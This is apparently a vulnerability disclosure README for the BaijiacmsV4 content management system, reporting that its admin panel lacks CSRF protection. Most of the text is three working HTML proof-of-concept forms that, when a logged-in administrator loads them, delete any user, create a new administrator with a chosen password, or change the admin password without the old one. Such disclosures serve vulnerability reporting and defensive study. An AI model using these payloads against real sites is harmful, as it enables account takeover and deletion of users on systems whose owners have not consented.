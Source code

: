 # why make this

BaijiacmsV4 does not open the issue, it is only possible to write a vulnerability here.

After administrator logged in, wo can use CSRF add a new administrator or delete any user(include administrator), you can even change your current account password without using a password.

# poc
## del any user

poc:
```
<html>
<body>
    <script>
        history.pushState('', '', '/')
    </script>
    <form action="http://localhost/index.php">
        <input type="hidden" name="mod" value="site" />
        <input type="hidden" name="op" value="deleteuser" />
        <input type="hidden" name="id" value="3" />
        <!--del user with id -->
        <input type="hidden" name="act" value="manager" />
        <input type="hidden" name="do" value="user" />
        <input type="hidden" name="beid" value="1" />
        <input type="submit" value="Submit request" />
    </form>
</body>
</html>
```
## add a user(admin)

poc:
```
<html>
<body>
    <script>
        history.pushState('', '', '/')
    </script>
    <form action="http://localhost/index.php?mod=site&op=edituser&act=manager&do=user&beid=1" method="POST">
        <input type="hidden" name="id" value="" />
        <input type="hidden" name="is&#95;admin" value="1" />
        <!-- add a admin -->
        <input type="hidden" name="store" value="0" />
        <input type="hidden" name="username" value="tester1" />
        <input type="hidden" name="newpassword" value="123456" />
        <input type="hidden" name="confirmpassword" value="123456" />
        <input type="hidden" name="submit" value="%E6%8F%90%E4%BA%A4" />
        <input type="submit" value="Submit request" />
    </form>
</body>
</html>
```
## change admin password

poc:
```
<html>
<body>
    <script>
        history.pushState('', '', '/')
    </script>
    <form action="http://localhost/index.php?mod=site&op=changepwd&id=1&act=manager&do=user&beid=1" method="POST">
        <input type="hidden" name="username" value="admin" />
        <!--only use username -->
        <input type="hidden" name="newpassword" value="12345678" />
        <input type="hidden" name="confirmpassword" value="12345678" />
        <input type="hidden" name="submit" value="%E6%8F%90%E4%BA%A4;" />
        <input type="submit" value="Submit request" />
    </form>
</body>
</html>
```